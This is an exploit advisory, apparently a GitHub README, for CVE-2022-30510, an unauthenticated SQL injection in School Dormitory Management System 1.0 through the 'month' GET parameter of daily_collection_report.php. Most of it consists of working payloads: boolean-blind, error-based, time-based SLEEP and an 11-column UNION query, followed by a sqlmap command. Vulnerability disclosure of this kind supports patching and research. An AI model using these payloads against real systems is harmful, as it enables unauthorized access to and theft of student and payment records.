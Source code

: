 # CVE-2022-30510
School Dormitory Management System 1.0 - Unauthenticated SQL Injection

#### Exploit Title: School Dormitory Management System 1.0 - Unauthenticated SQL Injection
#### Date: 2022-05-25
#### CVE: CVE-2022-30510
#### Exploit Author: Abdulaziz Saad (@b4zb0z)
#### Vendor Homepage: https://www.sourcecodester.com/
#### Software Link: https://www.sourcecodester.com/php/15319/school-dormitory-management-system-phpoop-free-source-code.html
#### Version: 1.0
#### Tested on: LAMP, Ubuntu

-----
[#] Vulnerability Location:
	`$_GET['month']` in `/dms/admin/reports/daily_collection_report.php:59`

>Parameter: month (GET)
	Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: page=reports/daily_collection_report&month=2022-05' RLIKE (SELECT (CASE WHEN (2158=2158) THEN 0x323032322d3035 ELSE 0x28 END))-- UWOA
>
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: page=reports/daily_collection_report&month=2022-05' AND (SELECT 1645 FROM(SELECT COUNT(*),CONCAT(0x716a6b6a71,(SELECT (ELT(1645=1645,1))),0x71766b7a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- UlyZ
>
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=reports/daily_collection_report&month=2022-05' AND (SELECT 3409 FROM (SELECT(SLEEP(5)))uaoG)-- rTvo
>
    Type: UNION query
    Title: MySQL UNION query (NULL) - 11 columns
    Payload: page=reports/daily_collection_report&month=2022-05' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a6b6a71,0x46716d4777627770436a6b56566f764c4d6f5a6b476b615041477742414f6979424e4f51744a5563,0x71766b7a71),NULL,NULL#
---

[#] Exploitation Using SQLMAP:
	`sqlmap -u "http://localhost/dms/admin/?page=reports/daily_collection_report&month=2022-05" --dbms=mysql`
